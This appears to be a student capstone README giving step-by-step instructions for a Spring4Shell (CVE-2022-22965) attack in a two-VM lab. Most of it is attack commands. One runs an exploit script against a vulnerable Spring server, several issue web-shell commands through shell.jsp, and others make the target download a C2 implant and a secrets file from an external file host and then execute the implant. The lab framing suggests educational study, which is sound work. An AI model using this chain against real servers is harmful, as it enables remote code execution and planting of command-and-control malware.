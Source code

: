 # 590J Captsone Project
Group Counting Sheep:
Brendan Henrich
Andrew Maldonado
Basundhara Chakrabarty

# Spring4shell Implant Delivery 
# CVE-2022-22965

# Proof of Concept Setup
2x Virtual Machines [Host OS Windows 10] running Ubuntu 20.04.4 LTS
Local network DCHP 10.0.2.0/24

Attacker IP = 10.0.2.15
Target IP = 10.0.2.4

Target is running vulnerable Spring server !

# Instructions:
Start here: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
On Target: [run the vulnerable spring server]
cd spring4shell
sudo docker run -p 80:8080 spring4shell

On Attacker: [launch the attack]:
cd spring4shell
python3 exploit.py --url 'http://10.0.2.4/helloworld/greeting'

# WEB SHELL COMMANDS:
lynx -dump http://10.0.2.4/shell.jsp?cmd=whoami
lynx -dump http://10.0.2.4/shell.jsp?cmd=echo%20spring4shell
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls%20-l%20/

# LOAD the implant:
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/XGHo3dJDb31/c2_implant
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/nScoTrBugqc/secrets.json

# RUN the implant:
lynx -dump http://10.0.2.4/shell.jsp?cmd=%2e%2fc2_implant
